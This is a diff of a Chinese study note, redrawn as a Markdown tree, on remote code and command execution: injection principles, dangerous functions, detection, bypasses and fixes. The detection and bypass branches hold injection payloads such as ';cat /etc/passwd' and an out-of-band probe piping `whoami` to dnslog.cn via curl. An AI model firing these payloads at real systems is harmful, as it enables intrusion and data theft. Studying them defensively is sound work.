

Before and after one commit to Monney-sys/daily-learning, a Markdown page: 2026-08-05-RCE远程代码命令执行详解.md, the part around one of its changes. Shown at 96% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Replace Mermaid mindmap with markdown tree diagrams (GitHub-compatible)

````diff
--- a/2026-08-05-RCE远程代码命令执行详解.md
+++ b/2026-08-05-RCE远程代码命令执行详解.md
@@ -78 +10,63 @@ mindmap
 ```
+RCE 远程代码命令执行
+│
+├── ⌨️ 命令执行（Command Injection）
+│   ├── 原理
+│   │   ├── 用户输入拼入系统命令
+│   │   └── 通过分隔符接上自己的命令
+│   ├── 拼接符号
+│   │   ├── Linux：; | || && & `` $()
+│   │   └── Windows：& && || |
+│   ├── 危险函数
+│   │   ├── PHP：system() exec() shell_exec() passthru() popen()
+│   │   ├── Python：os.system() os.popen() subprocess
+│   │   └── Java：Runtime.getRuntime().exec() ProcessBuilder
+│   └── 存在位置
+│       ├── ping / traceroute / nslookup / whois
+│       ├── 压缩解压、图片处理（ImageMagick）
+│       ├── 邮件 sendmail、备份 mysqldump / tar
+│       └── 插件：Apache Nifi、Webmin、CMS 后台工具
+│
+├── 💻 代码执行（Code Injection）
+│   ├── 原理：用户输入直接当代码执行（eval / assert）
+│   ├── 危险函数
+│   │   ├── PHP：eval() assert() preg_replace()/e create_function()
+│   │   ├── Python：eval() exec() __import__() pickle.loads()
+│   │   └── Java：OGNL / SpEL / MVEL 表达式注入、ScriptEngine
+│   └── 存在位置
+│       ├── 模板引擎 SSTI（Smarty / Twig / FreeMarker / Thymeleaf）
+│       ├── CMS 插件/主题编辑器、在线代码沙箱
+│       ├── 反序列化（unserialize / pickle）
+│       └── 数据库存储过程（xp_cmdshell）、规则引擎/公式计算
+│
+├── 🔍 检测方法
+│   ├── 白盒
+│   │   ├── 搜索危险函数 + 参数污点追踪
+│   │   └── Semgrep / CodeQL 规则扫描
+│   ├── 黑盒（命令执行）
+│   │   ├── 延时探测：;sleep+5 → 观察响应时间
+│   │   ├── 回显探测：;id / ;whoami / ;cat /etc/passwd
+│   │   └── 外带探测（无回显）：;curl http://dnslog.cn/`whoami`
+│   └── 黑盒（代码执行）
+│       ├── 数学运算：print(1+1) → 返回 2 ✅
+│       ├── 函数探测：phpinfo() / system('id')
+│       └── 延时：sleep(5) → 延迟 5 秒 ✅
+│
+├── 🔓 绕过手法
+│   ├── 空格绕过：${IFS} / $IFS$9 / %09 / < / <> / {}
+│   ├── 关键词绕过：cat→more/less/head/tail/tac / c\at / /bin/c?t / ca''t
+│   ├── 分隔符绕过：;→%0a(换行) / %0d%0a / || / && / $()
+│   └── 编码混淆：base64 / chr() / 字符串拼接 / 异或 ^
+│
+└── 🛡️ 安全修复
+    ├── 代码层
+    │   ├── 白名单映射 + escapeshellarg（命令执行）
+    │   └── 不用 eval/assert，用代码逻辑替代（代码执行）
+    ├── 配置层：disable_functions + open_basedir
+    ├── 运行时
+    │   ├── 容器/沙箱隔离 + 最小权限
+    │   ├── seccomp / AppArmor 限制系统调用
+    │   └── 网络隔离（限制出口 IP，防 DNSLog 外带）
+    └── 监控：异常命令检测 + 进程行为审计
+```
+
````
Also changed, not shown: other parts of 2026-08-05-RCE远程代码命令执行详解.md (+6 -73 lines), 2026-08-05-文件包含漏洞详解.md (+92 -84 lines).
